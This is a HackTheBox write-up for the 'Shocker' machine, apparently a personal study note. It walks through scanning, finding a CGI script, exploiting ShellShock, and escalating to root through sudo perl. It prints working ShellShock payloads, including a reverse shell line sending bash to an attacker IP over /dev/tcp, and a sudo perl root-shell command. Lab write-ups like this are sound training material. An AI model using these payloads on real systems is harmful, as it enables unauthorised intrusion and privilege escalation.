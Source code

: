 ```yaml
---
title: Shocker
tags:
  - HackTheBox
  - Easy
  - Linux
---
```

![](Pasted%20image%2020241102105019.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.10.56 shocker.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- shocker.htb > sC.txt

[redacted]
PORT     STATE SERVICE
80/tcp   open  http
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  EtherNetIP-1
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
```

So I decided to take a look at the webpage:

![](Pasted%20image%2020241102105723.png)

There’s a misconfiguration on Shocker that’s worth understanding. Typically, most webservers will handle a request to a directory without a trailing slash by sending a redirect to the same path but with the trailing slash. But in this case, there is a directory on Shocker that sends a 404 Not Found with visited without the trailing slash.

Tools like [dirsearch 📁](/notes/tools/dirsearch.md) and [Dirb 📢](/notes/tools/Dirb.md) actually take the input wordlist and loop over each entry sending two requests, with and without the trailing slash. This is really helpful in a case like shocker, but will double the amount of requests sent (and thus time) each time there’s a scan. Both [Gobuster 🐦](/notes/tools/Gobuster.md) and `feroxbuster` have a `-f` flag to force adding the `/` to the end of directories. For Shocker, running with `-f` does find something else:

```shell
gobuster dir -u http://shocker.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -f

[redacted]
===============================================================
/cgi-bin/             (Status: 403) [Size: 294]
/icons/               (Status: 403) [Size: 292]
```

```shell
dirsearch -e php,sh -u http://shocker.htb/cgi-bin

[redacted]
[11:25:49] 200 -  119B  - /cgi-bin/user.sh
```

So I checked that script:

![](Pasted%20image%2020241102112703.png)

It seems that this script outputs the linux command `uptime`.

## Exploitation

[ShellShock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)), AKA Bashdoor or CVE-2014-6271, was a vulnerability in Bash discovered in 2014 which has to do with the Bash syntax for defining functions. It allowed an attacker to execute commands in places where it should only be doing something safe like defining an environment variable. An initial POC was this:

```shell
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

This was a big deal because lots of different programs would take user input and use it to define environment variables, the most famous of which was CGI-based web servers. For example, it’s very typically to store the User-Agent string in an environment variable. And since the UA string is completely attacker controlled, this led to remote code execution on these systems.

> *I got inspired by this website: [sevenlayers.com](https://www.sevenlayers.com/index.php/125-exploiting-shellshock)*, then I created this note

So I decided to intercept the request and send a shellshock payload. I tested this payload:

```shell
() { :;}; echo; /usr/bin/id
```

![](Pasted%20image%2020241102113716.png)

So it's time for a reverse shell:

```shell
() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.16/666 0>&1
```

> Got it!

![](Pasted%20image%2020241102114023.png)

I can now read the user flag:

![](Pasted%20image%2020241102114227.png)

## Privilege escalation

if we run `sudo -l`:

```shell
sudo -l

Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

So we can run as sudo without password a perl privileged reverse shell. As [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) says:

> [!Info]
> If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```shell
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```

> We are root now!:

![](Pasted%20image%2020241102114629.png)

==Machine pwned!==

